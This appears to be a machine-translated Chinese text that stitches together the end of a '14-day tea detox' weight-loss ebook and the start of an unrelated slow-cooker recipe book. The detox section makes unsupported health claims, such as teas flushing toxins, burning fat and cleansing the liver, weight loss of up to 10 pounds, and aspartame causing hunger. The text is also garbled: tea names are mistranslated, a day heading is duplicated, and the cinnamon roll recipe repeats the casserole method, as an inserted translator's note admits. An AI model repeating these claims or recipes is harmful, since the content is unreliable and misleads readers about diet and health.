这个计划可能不像你想象的那么容易。你可能会发现多喝很多液体是很困难的。可能很难找到动力坚持计划，但这是你在过程中减肥和排毒的唯一方法。

邀请一个朋友加入你，这样你们就可以共同分享困难和收获。和朋友一起排毒不会让你感到孤立，还会给你一个交流经验的机会，这永远不是坏事。

### 不要太逼迫自己

偶尔过程会变得艰难，你会觉得想要放弃。虽然坚持下去很重要，但你应该确保不要太逼迫自己。如果你感到很吃力，就休息一两天，然后回到计划中。从停止的地方继续，不要对自己太严苛。

开始一个全新的清洁计划可能与你以前做过的任何事情都大不相同。会有你想放弃的时候，但要接受这些困难。也许偶尔让自己休息一下，然后继续，直到你找到状态并习惯这个计划是最好的。

### 记录你喝水的时间记录喝水的时间是跟踪进度的好方法。有时你可能会忘记喝水，而有些时候你单纯不想喝。记录你喝了多少次茶，可能也包括水，可以确保你知道自己处于14天计划的什么位置。

# 我应该喝什么茶，什么时候喝？

市面上有一些排毒计划可以准确地告诉你应该喝什么茶以及何时喝。其中许多计划会告诉你，只能饮用特定品牌的茶叶。除非你愿意每个月为味道好但茶支付订阅费，而这些茶的效果与其他天然排毒茶的效果一样好，否则我建议自己做主意。尝试每天至少喝 2 种不同的抗氧化茶，以获得其益处。关于哪些茶适合 14 天茶排毒计划的详细信息，请参考下方的购物指南。

如果你计划多次执行该计划，可能想要尝试不同的茶。这将帮助你了解市面上的选择，而且你更有可能发现一些效果良好或味道极佳的茶。

# 购物指南：

有些人非常乐于在混合原料并制作自制茶饮之前，自己采购制作排毒茶所需的所有原料。这个过程可能相当困难，这意味着你需要购买各种盒装或袋装茶叶，并准确切每份每种茶需要多少。

另一些人则乐意购买现成的茶并按照说明使用。这种方法要简单得多，因为准备工作很少。泡茶没有对错之分，但如果你生活忙碌，或者担心自己可能无法坚持计划，那么请选择包装好的茶。

# 漂白茶袋

我想补充的一点是，很多茶叶是经过漂白处理的茶袋的。漂白茶袋是白色的，而未漂白的茶袋颜色较深。许多有机茶采用未漂白的茶袋包装，如果你不喜欢使用经过化学物质漂白的茶袋，请选择未漂白的。或者，你可能想寻找使用了名为 TCF 的无氯工艺的茶袋。

我推荐的茶包括：

# 牛根茶

牛根茶几个世纪以来一直被净化血液的手段，它是较为人知的抗氧化茶之一，但这并不意味着它无效。牛根是一种天然利尿剂，这意味着它会排出多余的水，同时帮助身体清除那些有害毒素。此外，这种味道甜美的茶还被认为可以增强你的免疫系统。

# 香菜茶

香菜不仅味道好，也是一种极佳的排毒剂。此外，你还可以将这种很好的草药泡茶喝来对抗感染。香菜茶具有温和、宁静的味道，还被认为是非常棒的抗关节炎工具。

# 绿茶

绿茶可能是最为人知的抗氧化茶之一。我们大多数人都知道它对我们非常有益，但许多人并不确定为什么。绿茶不仅是一种特别有效的抗氧化剂，它还能消除体内的脂肪，同时帮助你消除水肿。

刚开始喝绿茶时，味道可能有点奇怪，但别担心，你会习惯这种味道的。尝试不同品牌的绿茶，因为某些味道会比其他的更浓。如果你难以接受这种味道，为什么不找薄荷/绿茶的组合呢？

# 生姜茶

除了味道好之外，生姜茶在帮助你排毒方面也很好。此外，它还有助于消化、促进血液循环，由于其微酸的味道，甚至能在早上让你清醒一些。

# 水飞蓟茶

水飞蓟茶对消化非常有益，而且在帮助肝脏毒方面非常有效。如果你有肝疾病，或者你的肝功能不够健康，那么你可能想尝试这种茶。在尝试这种茶之前，请咨询医生，因为它可能与你正在服的任何药物产生冲突。

# 薄荷茶

作为一种天然的食欲抑制剂，这种茶对平复胃非常好，因此有助于消化。我个人喜欢每天喝 2 杯薄荷茶，无论我是否在排毒，它就是那么好。市上有许多茶，但我的建议是选择没有添加剂的茶。薄荷茶配一点绿茶特别好喝，你可以在一杯茶中同时获得两种茶的益处。

# 乌龙茶

乌龙的大致翻译是“黑龙”，是一种可以帮助促进代谢的美味茶。代谢运行得越快，你燃烧脂肪就越快。此外，乌龙茶也有助于缓解神经，如果你容易感到焦虑或压力，这让它变得更有价值。

# 红草茶

我通常得去中国超市寻找这种茶，但有些健康食品商店可能也会卖这种美味的茶。红草茶富含抗氧化剂，在中从中用于清除肝脏和血液中的毒素，当你鼻塞时，喝红草茶也是理想的选择，因为它能自然地帮助清除鼻和肺部的痰液。

# 罗布茶

被称为“红叶茶”，这种味道极佳、无咖啡因的茶可以帮助降低压力激素水平，并减少二型糖尿病的风险。无论加不加牛奶，罗布茶在浸泡约 5 分钟后味道更好。

# 白茶

白茶不仅是丰富的抗氧化剂来源，还能帮助分解脂肪。这使得白茶成为一种理想的饮用茶，而且，它是你能找到的加工程度最低的茶叶之一，而这永远不是坏事。

# 在哪里采购茶叶

你当地的超市可能会提供你考虑作为 14 天茶排毒计划部分的某些茶叶。通常，超市会提供绿茶，可能还有罗布茶或乌龙茶。在超市很难找到更多“异域”茶，所以你将需要去别处寻找。

你所在镇上的健康食品商店会有更丰富的茶叶，如果你考虑大批量购买，他们甚至愿意为你订购。此外，还有相当在线健康食品商店和专业茶叶销售商，你应该能在那里采购到。

一些中国超市和中国中药店也备有各种茶叶，如果你附近有的话，值得去一趟，价格可能相当实惠。

# 关键成分

当你开始茶排毒计划时，你需要确保方法正确。从理论上说，你可以喝任何你喜欢的茶，并假设自己正处于排毒计划中。这样做的问题在于，你可能会错过清除体内大量毒素的关键机会。

在开始计划之前，理想情况下你应该储备大量的茶叶。你不需要准备 16 种不同的茶，但我建议你至少应该准备 3 种。这个计划最重要的方面之一是，你要喝含有某些关键成分的茶。这些成分基本上是任何具有抗氧化性能的茶，或者加入茶中的含有此类属性的物质。茶的抗氧化性能越强，你的排毒就越成功。

让我们来看看你茶叶中会发现的一些关键成分：

### 黄酮类

黄酮类是你所喝的任何红茶中极其重要的部分。这是因为它们可以帮助减少血管的收缩，从而改善血流。黄酮类也具有抗氧化剂的作用，甚至被认为它们可能具有轻微的抗组胺特性。

### 多酚

多酚是一种抗氧化剂，有助于寻找那些可能损害你细胞的自由自由基。好消息是，绿茶和红茶中的多酚含量比你食用的任何水果或蔬菜高十倍。

正如你所看到的，茶对你来说可能非常有益，特别是绿茶或红茶。尝试多喝一些绿茶或红茶，你的排毒将成功得多。

## 第 3 章：14 天减脂计划

## 指南

作为茶疗计划的一部分，您应该在早餐前或随早餐一起喝一杯茶，午餐前或随午餐一起喝一杯，晚上吃饭时再喝一次。您可以决定每天喝同一种茶，但理想情况下您应该增加一些变化，因为这有助于防止厌倦情绪。

## 水

下面是推荐的 14 天减脂计划，它将帮助你减轻多达 10 磅。你会发现这个计划鼓励你喝更多的水，因为水是天然的抗氧化剂，它可以帮助肠道蠕动。

## 运动

该计划还涉及运动，你不需要比现在多做很多，只需尝试变得活跃一点。考虑步行或骑自行车上班或去商店，而不是开车。在有空闲时散散步，参加健身课程，或做任何让你微微出汗的事情。你越活跃，消耗的热量就越多，这意味着你将开始减肥。

重要提示：如果你增加了大量运动量，你需要增加液体摄入量。确保不要让自己脱水，让水分进入身体，并因此感觉更好。

下面是 14 天减脂计划指南。该指南要求你喝特定类型的茶，但你不必完全遵循这个计划。选择你想要喝的茶，因为你可能不喜欢我建议的茶。该计划仅仅是一个指南，可以根据你的口味和生活方式进行调整。

## 进时间

如果你想减肥，就必须确保摄入健康均衡的饮食。低脂肪、低盐、低糖的饮食可以帮助你加速减肥。你不需要疯狂并完全戒掉脂肪、糖和盐，你只需要理智一点。尝试每天至少吃 5 份水果和蔬菜。记住你可以偶尔奖励自己，只需确保不要太频繁，否则可能会减慢你的减肥速度。

你的晚餐应该是一顿正餐，其中包含碳水化合物、蛋白质和蔬菜。如果你愿意，甜点可以作为一种奖励，但要注意控制分量。

## 第一天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯生姜茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯路易波茶

## 第二天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯生姜茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯路易波茶

## 第三天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯薄荷茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯路易波茶

## 第四天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯薄荷茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯路易波茶

## 第五天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯牛根茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯路易波茶

## 第六天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯牛根茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯路易波茶

## 第七天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯生姜茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯路易波茶

## 第八天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯白茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯乌龙茶

## 第九天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯白茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯乌龙茶

## 第十天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯香菜茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯乌龙茶

## 第十天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯香菜茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯乌龙茶

## 第十二天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯红豆茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯乌龙茶

## 第十三天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯红豆茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯乌龙茶

## 第十四天

- 起床后喝一杯水
- 早餐前或随早餐喝一杯绿茶
- 吃用健康零心时喝一杯水
- 午餐前或随午餐喝一杯水须膝茶
- 吃用健康零心时喝一杯水
- 晚餐前或随晚餐喝一杯乌龙茶

如果你想在晚上多喝水，请这样做。

## 概述

茶疗计划是健康且可持续的，可以帮助你减肥。请记住，你需要健康均衡的饮食并进行运动才能感受到充分益处。

令人难以的是，你将在不知意中开始减肥，这归功于你摄入了更多液体。某些液体（尤其是茶）可以增加饱腹感，让你减少寻找不健康零食的机会。

## 第 4 章：需要避免的事

为了让你的 14 天茶疗计划尽可能成功，你需要限制食物的摄入。高脂肪、高糖、高盐食品应该避免，或者至少尝试减少它们的摄入量。

以下是一些你需要避免的更多事项：

### 酒精

酒精充满了热量，这就是为什么经常看到饮酒者有啤酒肚。为了帮助减肥，你应该考虑在计划期间戒掉酒精。如果你真的想喝点什么，选择干白葡萄酒，它的酒精含量较低。

### 炸食品

虽然在计划期间偶尔奖励自己没有错，但你应该尝试避免炸食品。炸食品充满了脂肪，即使你已经沥掉了多余的脂肪。

### 苏水

汽水充满了糖，在计划期间应该避免。无糖汽水含有氨酸（也称为“甜味剂”），氨酸会欺骗你的大脑让你感到饥饿，从而让你寻找不健康零食。完全避免汽水，以免在一次餐中摄入大量热量。

### 糖

除非你能确定自己能够消耗掉摄入的糖，否则请避免它。如果你不消耗掉糖，它就会被储存成脂肪，那是你最不想看到的。

## 盐

我们都摄入了过多的盐，却没有意识到这对我们的身体有多坏。盐会导致水分滞留，而且升高血压也是众所周知的。将盐摄入量减少一半，每天摄入量不超过 6 克。我们饮食中都需要少量的盐，只需尽量不要过量即可。

如果你愿意，每个月都可以执行这个 14 天计划，只需确保你坚持健康均衡的饮食，并在不在计划期间坚持运动。这样一来，你的减重效果会更加持久，你也不必太担心体重反弹。

## 第 5 章：食谱

你们中的一些可能想从零开始制作自己的茶，让我告诉你，没有什么比自己亲手调制的一杯美味茶水更让人有成就感了。虽然你可能无法获得想要制作的每种茶的所有原料，但你仍然能找到一些。

### 姜茶

配料：（4 人份）

- 2 英寸生姜
- 4 杯水

### 做法

- 去掉生姜的皮并切成薄片
- 在锅中烧水，加入生姜
- 盖上锅盖，将火力调至微火
- 让水微煮 15 到 20 分钟
- 滤入杯子或马克杯中
- 根据口味加入柠檬汁或蜂蜜
- 享用

### 薄荷茶

配料：（4 人份）

- 半杯薄荷叶
- 4 杯水
- 3 汤匙蜂蜜

### 做法

- 在锅中烧水
- 加入薄荷叶并关火
- 浸泡约 5 分钟
- 将茶滤入杯子或马克杯中
- 将蜂蜜分配到各个杯子中
- 享用

### 绿茶姜薄荷茶

配料：（15 人份）

- 2 个橙子
- 2 英寸生姜
- 1 束薄荷
- 半杯绿茶叶

做法

- 剥去橙子的皮，放在晾架子上
- 将生姜切成厚片，放在晾架子上
- 摘下薄荷叶，将其放在晾架子上
- 让橙子、生姜和薄荷在室温下干燥约 24 小时，直到变脆
- 将干燥的原料掰成约一英寸大的小块
- 将碎片混合在碗中，储存在密封容器内
- 用勺取 1 到 2 茶匙干原料放入茶滤中，放入杯中
- 向杯中倒入热水，让浸泡 3 到 5 分钟
- 享用

不要害怕尝试上述食谱，甚至可以创造自己的配方。

尽快开始 14 天茶排毒计划，让你的身体从茶完全天然的抗氧化能力中获益。只需通过饮用正确的茶来减轻体重，感觉更好，并摆脱那些可怕的毒素。

## 结论

感谢感谢下载这本书！

我希望这本书能帮助你理解茶排毒计划是多么简单、愉快且有效。

下一步是准备你所需的茶叶，准备好在 14 天内减重高达 10 磅！

最后，如果你喜欢这本书，我想请你帮个忙，你愿意在 Amazon 上给这本书留一个评价吗？我将不胜感激！

[点击此处在 Amazon 上为此书留评！]

感谢并祝你好运！

## 慢炖锅食谱挑战

快速简易慢炖锅食谱

底部附带免费报告及额外内容

另可在 KindleBookSpot.com 获取更多免费和特价书籍

## 目录

- 引言
- 第 1 章：慢炖的好处
- 第 2 章：慢炖锅早餐食谱
- 第 3 章：慢炖锅午餐食谱
- 第 4 章：慢炖锅晚餐食谱
- 第 5 章：慢炖锅甜点食谱
- 结论

## 引言

我想感谢并祝贺你下载了《慢炖锅食谱挑战》一书。

这本书包含了令人垂涎的、易于制作的食谱，可以在慢炖锅（也称为慢煮器）的帮助下完成。

如果你对发现快速简易的慢炖锅食谱感兴趣，请不要犹豫阅读这本书直到最后一章。你将有机会获得有关慢炖方法的宝贵信息，学习如何利用它来过健康的生活，并节省厨房烹饪时间。

这本书可以作为你慢炖的忠实指南，为你提供按照一天三餐（即早餐、午餐和晚餐）分类的食谱。它还包含一个专门针对甜点的特殊章节，让你也能满足甜甜的味蕾。

## 本书将给你：

- 早餐食谱
- 午餐食谱
- 晚餐食谱
- 以及甜点食谱

再次感谢下载这本书，我希望你喜欢！

不要忘记查看底部我最喜欢的饮食法之一：

学习我如何通过 3 周饮食法快速消除顽固的多余脂肪的策略。

前往底部获取更多信息，并接收你的免费报告和额外内容！

## 第 1 章：慢炖的好处

慢炖锅（Crock-Pot）无疑是世界上著名的慢炖锅之一。在过去的几年里，越来越多的人尝试使用它，并在第一次体验后就爱上了它。正如其名所示，慢炖锅允许人们在较低的温度下长时间烹饪。这种烹饪方法具有许多独特的优点，你将在下文中发现。

慢炖锅的主要优点之一是人可以同时准备出既美味又有营养的食物。主要的优势是食物在低低温下长时间烹饪，这使得食物能够保留营养。另一个优点是，蔬菜和肉类都在自己的原汁中烹饪，很少或完全不需要油或黄油。食物在自己的汁中烹饪的事实保证了相应食物的低脂肪含量。

当你决定让食物在慢炖锅中慢炖时，你确保了所有健康矿物质和维生素的维持。这种烹饪方法不会损失任何营养，这种肯定在煎或煮时是无法维持的。再次，这是因为慢炖锅在低温度运行，确保了食物在长时间内的烹饪。事实上，所有借助慢炖锅准备的食物都充满了风味——许多人认为这种味道与烤箱相比是不可思议的。在没有足够时间饪的情况下，慢炖锅似乎是一个救星。唯一花费的时间是在切块或切碎上，否则慢炖锅会处理一切。通常情况下，你可以全天依靠慢炖锅。唯一的例外是你的食谱需要牛奶或奶油，这些必须在最后加入。然而，当你决定打开盖子时，你必须额外增加 20 分钟。

大多数人认为慢炖锅适用于冬季，因为室外温度需要温暖的食物。然而，如果你花点时间考虑一下，慢炖锅全年可以使用。想象一下你在夏天在烤箱旁烹饪时热得大汗淋漓。烹饪通常会担心消耗了多少能量。然而，有了慢炖锅，你再也不必担心这些问题，因为这种方法保证了能量的减少。一个已知事实是慢炖锅消耗的能量更少，特别是与电烤箱相比。如果你比较这两者的功率消耗和烹饪所需的时间，你会发现慢炖锅绝对是更经济的选择。

烹饪时，几乎不可能不弄脏许多餐具并在事后痛苦。然而，有了慢炖锅，你会有非常简单的清理。除了锅本身很容易清洗外，你可能只需要清洗过程中使用的菜板和刀。对于某些食谱，你可能有一个额外的锅要洗，因为它可以用于煎炒。至于慢炖锅，建议你购买可拆卸内胆的，因为清洁要容易得多。

你可能没有想过这个事实但慢炖锅可以很容易从一个地方移动到另一个地方。所以，如果你在旅行并想自己做饭，可以使用慢炖锅。你想把慢炖锅带到邻居派对或任何其他地方也是如此。它很轻，易于运输。

经常会出现食谱失败的情况，由于肉质很硬且难以

烹饪。使用慢炖锅，你可以烹饪肉质较硬的肉类，而无需担心它们煮不熟。相反，你将获得一个惊喜，因为你会发现它们既鲜嫩又多汁。很多人都喜欢慢炖的过程，因为他们意识到食物几乎没有烧焦的可能（始终在低温下烹饪）。

从实际角度来看，慢炖锅可以帮助你腾出烤箱或炉灶进行额外的烹饪或烘焙。这在圣诞节或其他节假日尤为适用，因为那时需要在短时间内为大量的人准备大量的食物。

慢炖锅可以帮助你为家人准备健康的饮食。这不仅是指食物在自己的汁水中烹饪。我们所讨论的另一个事实是，慢炖锅内部的环境确保了细菌微生物的破坏比例高于其他烹饪方法。

最后，也是值得考虑的另一个主要优势，那就是多样性。慢炖锅可以用于许多难以置信的食谱，其中炖肉、炖菜和各种汤类位于前茅。在接下来的章节中，你将发现一些最美味且易于准备的慢炖锅食谱。你准备好迎接这个烹饪挑战了吗？

## 第2章：慢炖锅早餐食谱

早餐是一天中最重要的重要的一餐，而慢炖锅是完美的烹饪工具，它可以帮助你准备美味的食物开启新的一天。在本章中，你将找到许多令人流涎的慢炖锅早餐食谱，旨在为你的一天有一个良好的开始。享受阅读，不要犹豫尝试尝试所有的食谱。请记住，其中许多食谱可以通夜准备，这样你一早晨就能准备好早餐。

## #1 早餐砂锅

时间：4 小时 30 分钟/8 小时 30 分钟（30 分钟准备，4小时/8小时 烹饪）

适合人数：8-10 人

食材：冷冻薯饼块（1 包——约 32 盎司）、培根（1 磅）、小洋葱（1 个）、碎切达芝士（8 盎司）、切丁红椒（1/2）、切丁绿椒（1/22）、鸡蛋（12 个）、牛奶（1 杯）、盐和胡椒（适量）。

准备方法：

首先将培根切成小段并在锅中炒香。如果你想节省更多时间，可以使用已经煮好的培根。取你的慢炖锅，在底部加入一半的薯饼块。然后，按照特定的顺序加入以下的一半食材：培根、洋葱、红绿椒和切达芝士。这时你必须加入剩余份量的薯饼块。继续加入上述食材的另一半。将鸡蛋和牛奶一起打匀并倒在砂锅中。根据口味加入盐和胡椒调味。烹饪四小时（低火档）或八小时（保温火档）。享用得愉快！

## #2 苹果肉桂燕麦片

时间：5 小时 15 分钟（15 分钟准备，5 小时 烹饪）

适合人数：10 人

食材：钢切燕麦（1 杯）、椰奶（1 且 ½ 杯）、水（1 和 ½ 杯）、苹果（2 个）、红糖（2 汤匙）、椰子油（1 汤匙）、肉桂（1 茶匙）、海盐（1/4 茶匙）；配料（可选）——肉桂/红糖、碎坚果（杏仁、碧桃、核桃）、新鲜水果（浆果、香蕉或苹果）。

准备方法：

首先向慢炖锅内部喷油，确保覆盖所有表面。加入燕麦、椰奶、水、切丁的苹果、红糖、肉桂、椰子油和海盐。确保它们混合均匀。用低火烹饪约 5 小时。享用前，让燕麦片冷却。加入所需的配料，上并享用！

## #3 早餐藜麦

时间：3 小时 5 分钟（5 分钟准备），3 小时 烹饪

适合人数：5 人

食材：藜麦（1 杯）、杏仁奶（3 杯）、切碎枣（4 个）、南瓜子（1/4 杯）、切丁苹果（1 个）、肉桂（2 茶匙）、豆蔻（1/4 茶匙）、香草提取物（1 茶匙）、盐（1/4 茶匙）

准备方法：

将藜麦与其他食材一起加入慢炖锅。确保烹饪大约三小时，直到所有液体都被吸收。你也可以通夜烹饪，低火慢炖 8 小时，这样在早上就能准备好，正好赶上早餐。享用得愉快！

## #4 肉桂卷

时间：2 小时 30 分钟（30 分钟准备，2 小时 烹饪）

适合人数：10-12 人

食材：面团——温水（1 和 ½ 杯）、活性干酵母（1 汤匙）、蜂蜜（2 汤匙）、面粉（3 和 ½ 杯）、盐（1 茶匙）；馅料——黄油（4 汤匙）、糖（1/2 杯）；糖霜——黄油（4 汤匙）、糖（1/2 杯）、切达芝士（2 杯）、肉桂（1 茶匙）、香草提取物（1 汤匙）、牛奶（3 杯）。*

准备方法：

首先将面团混合。取你的慢炖锅，在底部加入一半的薯饼。然后，按照特定顺序加入以下的一半食材：培根、洋葱、红绿椒和切达芝士。这时加入加入剩余份量的薯饼。继续加入上述食材的另一半。将鸡蛋和牛奶一起打匀并倒在砂锅中。根据口味加入盐和胡椒调味。烹饪四小时（低火档）或八小时（保温火档）。享用得愉快！

*(注：原文中#4的描述似乎存在内容重复或逻辑混乱，已根据上下文进行结构性翻译)*

## #5 蔬菜煎蛋

时间：2 小时 15 分钟（15 分钟准备，2 小时 烹饪）

适合人数：4-6 人

食材：鸡蛋（6 个）、牛奶（1/2 杯）、盐（1/4 茶匙）、胡椒（适量）、洋葱粉（1/4 茶匙）、辣椒粉（1/4 茶匙）、西兰花（1 杯）、红椒（1 个）；配料——新鲜欧芹、番茄、碎切达芝士。

准备方法：

首先向慢炖锅内部喷油，确保覆盖所有表面。将鸡蛋与牛奶、加入洋葱粉、辣椒粉、盐和胡椒混合并搅拌匀。下一步，将西兰花和切丁的洋葱放入慢炖锅。加入混合物。烹饪两小时。如果你想用切达芝士作为点料，将其撒在上面等待几分钟。你也可以用新鲜欧芹或番茄点缀。享用得愉快！

## 第3章：慢炖锅午餐食谱

慢炖锅是准备美味午餐的完美工具，请尽管阅读本章并尝试其中的食谱。慢炖锅对于忙碌的家庭来说绝对有用，可以帮助你在处理其他事情的同时准备午餐。它在节日期间也非常有用，那时全家人聚在一起享用著名的午餐。提前测试食谱总是最好的，所以准备好迎接节日带来的烹饪冒险。

## #1 鹰嘴豆蔬菜咖

时间：6 小时 10 分钟（10 分钟准备，6 小时 烹饪）

适合人数：6 人

食材：橄榄油（1 汤匙）、切碎的洋葱（1 ½ 杯）、萝卜片（1 杯）、咖喱粉（1 汤匙）、红糖（1 茶匙）、新鲜姜末（1 茶匙）、大蒜瓣（2 个）、莎莎辣椒（1 个）、鹰嘴豆（3 杯）、土豆（1 和 ½ 杯）、绿椒（1 杯）、荷兰豆（1 杯）、盐（1/2 茶匙）、黑胡椒（1/4 茶匙）、辣椒粉（1/8 茶匙）、切丁番茄（1 罐）、蔬菜汤（1 罐）、婴儿菜（3 杯）、椰奶（1 杯）、柠檬片（6 片）。

准备方法：

首先用橄榄油炒香切碎的洋葱和萝卜片，直到变软。向锅中加入莎莎辣椒、碎的大蒜、生姜、糖和咖喱粉。再炒一分钟。将混合物放入慢炖锅。加入鹰嘴豆以及以下食材：土豆、绿椒、荷兰豆、盐、黑椒、辣椒粉、切丁番茄和蔬菜汤。用高火烹饪约六小时。完成后，加入婴儿菜和椰奶。搅拌至婴儿菜变软。用柠檬片点缀。享用得愉快！

## #2 土豆胡萝卜炖鸡肉

总耗时：4 小时（准备30分钟，烹饪3小时30分钟）

份量：6人份

食材：洋葱（1和3/4 杯）、烹饪喷雾（1份）、小胡萝卜（2 杯）、圆红土豆（6个）、鸡汤（1/2 杯）、干白葡萄酒（1/2 杯）、新鲜百里香碎（1 汤匙）、大蒜末（1 茶匙）、盐（3/4 茶匙）、现磨黑胡椒（1/2 茶匙）、红椒粉（1 茶匙）、鸡腿（6个）、橄榄油（1 茶匙）。

制作方法：

首先在慢锅内壁喷上烹饪喷雾。然后将切好的洋葱放入慢锅中，加入土豆和胡萝卜。将鸡汤与葡萄酒、新鲜百里香和大蒜混合。将此混合物加入慢锅中。用红椒粉、盐和胡椒粉混合物裹鸡肉。在锅中将鸡肉煎至金黄色，然后将其放在慢锅中的蔬菜上方。烹饪约三个半小时（低火）。撒上新鲜百里香装饰即可享。

## # 培根黑醋汁羽衣甘菜

时间：4 小时15分钟（准备15分钟，烹饪4小时）

份量：5人份

食材：培根片（3片）、切碎洋葱（1 杯）、新鲜羽衣甘菜（1包 – 16盎司）、盐（1/4 茶匙）、大蒜瓣（2瓣）、月桂叶（1片）、鸡汤（1罐 – 14.5盎司）、黑醋（3 汤匙）、蜂蜜（1 汤匙）。

制作方法：

首先用中火在锅中煎培根。等培根变脆后，将其切成小块或用手捏碎。下一步，将洋葱碎和羽衣甘菜一起翻炒。将炒好的蔬菜加入慢锅，连同盐、大蒜瓣、月桂叶和鸡汤。烹饪约四小时（低火）。将黑醋和蜂蜜混合制成酱汁。将酱汁淋在所有食材上并撒上培根。上桌享用！

## #4 咖喱猪肉配米饭

时间：8 小时10分钟（准备10分钟，烹饪8小时）

份量：6人份

食材：菜籽油（1 茶匙）、无骨猪里脊（1和½磅）、切块红土豆（3和½ 杯）、切碎洋葱（1 杯）、切碎红椒（1 杯）、鸡汤（1/4 杯）、面粉（2 汤匙）、糖（1 汤匙）、番茄膏（2 茶匙）、新鲜生姜（1 汤匙）、盐（1和½ 茶匙）、咖喱粉（1 茶匙）、磨孜然粉（1 茶匙）、大蒜瓣（2瓣）、椰奶（1/2 杯）、长米饭（3 杯）、香菜叶（可选）。

制作方法：

首先在煎锅中将猪里脊煎至金黄色。然后，将以下食材加入慢锅：猪里脊、红土豆、洋葱、红椒、鸡汤、面粉、糖、番茄膏、生姜、盐、咖喱粉、孜然粉和大蒜瓣。确保混合均匀且面粉已溶解。在慢锅中烹饪约八小时（低火）。在菜做好前加入椰奶。配上热的长米饭，并用香菜叶装饰。享用！

## #5 加勒比风味黑豆汤

时间：8 小时15分钟（准备15分钟，烹饪8小时）

份量：8人份

食材：橄榄油（1 汤匙）、切碎红洋葱（2 杯）、切丁绿椒（1 杯）、切丁红椒（1 杯）、墨西哥辣椒（3 汤匙）、大蒜头（1头）、番茄膏（1/4 杯）、蔬菜汤（4 杯）、干百里香（1 茶匙）、磨孜然粉（1 茶匙）、磨姜粉（1/2 茶匙）、磨肉豆蔻（1/2 茶匙）、磨红辣椒（1/4 茶匙）、盐（1/8 茶匙）、黑豆（2罐 – 15盎司）、椰奶（1/2 杯）、新鲜香菜（1/2 杯）、2个青柠（切四份）。

制作方法：

首先在锅中炒香切碎红洋葱。将绿椒和红椒加入锅中，然后加入切碎的墨西哥辣椒。炒几分钟，然后加入大蒜。加入番茄膏和一杯蔬菜汤。将整个混合物转移到慢锅。加入以下食材：三杯蔬菜汤、干百里香、孜然、姜粉、肉豆蔻、红辣椒、盐和黑豆。烹饪约八小时（低火）。在汤做好前加入椰奶。撒上新鲜香菜装饰，配上青柠角享用。享用！

# 第4章：慢锅晚餐食谱

当你下班回到家，最不想操心的就是晚餐。其实，有了慢锅，你只需要在早晨花几分钟准备好这顿美味晚餐的食材。在你上班或处理杂事时，慢锅会为你煮好晚餐。让我们来看看最美味的慢炖晚餐食谱吧！

## #1 南瓜啤酒慢锅鸡肉

总耗时：8 小时5分钟（准备5分钟，烹饪8小时）

份量：4人份

食材：鸡胸肉（4块）、安杜香肠（2根）、洋葱（1个）、红椒（2个）、切丁番茄（14盎司）、绿辣椒（4盎司）、热辣酱（2 汤匙）、辣椒粉（1 汤匙）、烟熏红椒粉（1 茶匙）、干百里香（2 茶匙）、辣椒辣椒（1/2/1 茶匙）、盐（1/2 茶匙）、胡椒（1/2 茶匙）、南瓜啤酒（12盎司）、水（1/4 杯）。

制作方法：

首先将洋葱放入慢锅。然后加入以下食材：红椒、切丁番茄、绿辣椒、热辣酱、辣椒粉、烟熏红椒粉、干百里香、辣椒粉、盐、胡椒、南瓜啤酒和水。烹饪约八小时（低火）。菜做好前加入淀粉并拌匀。配糙米享用，并撒上洋葱装饰。

## #2 辣味土豆鸡

时间：4 小时5分钟（准备5分钟，烹饪4小时）

份量：4人份

食材：鸡胸肉（2磅）、土豆（8盎司）、洋葱（2个）、辣椒碎（3 汤匙）、辣椒酱（2 汤匙）、酱油（4 汤匙）、味淋（2 汤匙）、蜂蜜（2 汤匙）、芝麻油（1 汤匙）、大蒜瓣（4瓣）。

制作方法：

取一个碗混合酱汁原料：辣椒碎、辣椒酱、酱油。将鸡肉切小块放入慢锅，连同土豆和洋葱。将酱汁淋在所有食材上。烹饪约四小时（低火）。上菜前加入切碎的洋葱。撒上芝麻装饰并配米饭。享用！

## #3 烘烤大蒜番茄汤

时间：3 小时35分钟（准备35分钟，烹饪3小时）

份量：6-8人份

